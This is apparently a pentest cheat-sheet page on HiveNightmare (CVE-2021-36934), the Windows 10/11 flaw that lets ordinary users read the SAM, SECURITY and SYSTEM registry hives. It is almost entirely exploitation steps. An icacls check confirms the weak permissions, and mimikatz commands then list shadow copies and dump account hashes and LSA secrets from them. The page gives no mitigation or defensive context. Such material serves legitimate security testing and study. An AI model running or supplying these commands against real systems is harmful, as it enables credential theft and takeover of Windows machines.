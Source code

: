 # HiveNightmare

#### CVE-2021–36934 allows you to retrieve all registry hives \(SAM,SECURITY,SYSTEM\) in Windows 10 and 11 as a non-administrator user.

## Exploitation

Check for the vulnerability using icacls

```text
C:\Windows\System32> icacls config\SAM
```

```text
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!                    

```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```text
mimikatz> token::whoami /full
```

#### List shadow copies available

```text
mimikatz> misc::shadowcopies
```

#### Extract account from SAM databases

```text
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

#### Extract secrets from SECURITY

```text
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```









